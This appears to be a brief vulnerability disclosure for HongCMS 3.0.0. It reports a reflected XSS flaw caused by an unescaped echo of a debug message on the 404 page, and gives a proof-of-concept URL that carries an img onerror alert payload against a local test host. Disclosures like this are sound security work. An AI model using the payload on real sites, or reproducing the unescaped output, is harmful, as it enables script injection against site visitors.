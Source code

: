 ## There is a reflective XSS on the 404 page of the web site

Powered by Shiyan

##### Vulnerability analysis：

In the 404 error page, the wrong code was used, resulting in the existence of XSS vulnerability.

##### Loophole code：

HongCMS_3.0.0_free\system\errors\404.php

Sixtieth lines

`<?php echo $debugmsg; ?>`

##### Reflected XSS PoC:

`http://127.0.0.1/hongcms_3.0.0_free/index.php/abou<img src=x onerror=alert('shiyan')>`

##### Vulnerability trigger screenshot：

![1](https://github.com/lzlzh2016/CVE/blob/master/1.png)

Note: the vulnerability will be exploited by malicious users.
